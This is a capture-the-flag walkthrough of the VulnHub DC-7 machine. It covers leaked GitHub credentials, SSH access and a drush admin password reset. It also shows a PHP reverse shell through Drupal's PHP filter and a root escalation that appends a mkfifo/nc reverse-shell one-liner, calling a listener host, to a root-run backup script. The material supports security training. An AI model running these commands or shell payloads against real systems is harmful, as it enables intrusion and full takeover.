<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/">DC-7</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7"> DCAU7</a></h4>

## Nmap



only two ports are open. A SSH service and a HTTP service with a `robots.txt` file present.

***

## HTTP


We can see a drupal website is running. Let's check out the `robots.txt` entries.



There are quite a few entries here. I tried opening all of them but none of them had anything good for us. One thing that I noticed was there was this username in the form of how we write the twitter(mostly) usernames i.e with `@`.



So I decided to search that name on twitter and found one user.



There was no tweet but we can see there's a link to his `github` profile.

There was only one repository named `staffdb` and in the readme I got the assurance that I am on the right track.



I cloned that repository so I can look through the code.

In a file called `config.php` I found credentials for user `dc7user`



`dc7user:MdR3xOgB7#dW`

I tried to login with those credentials but they didn't work.



But I was able to `SSH` into `dc7user` account.



***

## SSH

In the home directory I found a hidden directory named `.drush`.

> Drush is a command line shell and Unix scripting interface for Drupal. Drush core ships with lots of useful commands for interacting with code like modules/themes/profiles. Similarly, it runs update.php, executes SQL queries and DB migrations, and misc utilities like run cron or clear cache. Developers love the generate command, which jump starts your coding project by writing ready-to-customize PHP and YML files. Drush can be extended by 3rd party commandfiles.

So basically `drush` is used to manage drupal website. After looking around for a while and reading lots of `drush` wiki, I ended up asking [@DCAU7]() for help.

```bash
$ drush upwd admin admin
```



__NOTE__: Make sure you are in `/var/www/html` directory when you are running any command related to drush.

Once the password was change I was able to login in `drupal` with credentials `admin:admin`.



I downloaded the `php` enabling filter from [Drupal/php](https://www.drupal.org/project/php). Then in `Extend` tab I clicked on the `Install new module` button and uploaded this. Once it is installed I was able to enable PHP.



Once it was enabled I went to `Content -> Add content -> basic page` and then select the `Text format` to be `PHP code` and copy paste the reverse shell code.



And hit the preview button while the listener is running. This will give you the reverse shell.



__NOTE__: If you had any issue in getting a reverse shell then follow [164-drupal-to-reverse-shell](https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell)

***

Before we move on I would like to explain the reason for getting the reverse shell when we already have a SSH access.

In the `/home/dc7user` we can see a file named `mbox` which contains some emails.



In this we can see a script named `backups.sh`.



This script is responsible for backups of sql-dump from drupal. But the interesting part is the permissions and group of this file.



This script is running as `root` and `www-data` is in the same group meaning if we can get a reverse shell we'll be `www-data` and then we'll be able to edit this backups.sh file which runs as root giving us a root shell or root power.

***

Run:

```bash
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 4444 >/tmp/f" >> backups.sh
```

and then started my listener and waited for a while.



And then get that DAMN flag.



__DAMN!!!! My name is in the root flag 😱😱😱😱😱__

***

This is really nice machine, basically this box shows us how people are dumb enough to leave their credentials/keys in the code they push to github or how they reuse there password for multiple platforms.

Thanks to [@DCAU7](https://twitter.com/DCAU7) for this awesome addition to the awesome series.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
